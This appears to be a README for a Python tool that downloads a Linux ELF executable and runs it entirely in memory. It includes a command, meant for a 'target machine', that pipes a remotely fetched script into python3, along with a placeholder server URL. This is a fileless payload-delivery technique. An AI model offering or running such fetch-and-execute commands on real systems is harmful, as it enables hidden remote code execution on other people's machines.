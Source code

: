 # elf-in-memory-exec

### Introduction

Python3 script that downloads and executes an elf (linux executable format) completely in memory. All you need is python3 on your host to run it.

### Usage

**First**, modify the script on your machine, set `url` to the url where your elf executable would be fetched from. Optionally, add any arguments you want to pass to the program to `args` list. Leave it empty for no arguments.

Example:

```
url = "http://your-server/your_elf" # To download elf from
args = ["arg1","arg2",...] # List of arguments to pass to program
```

**Second**, on target machine, run:

Example:

```
curl http://your-server/elf_in_memory.py | python3
```
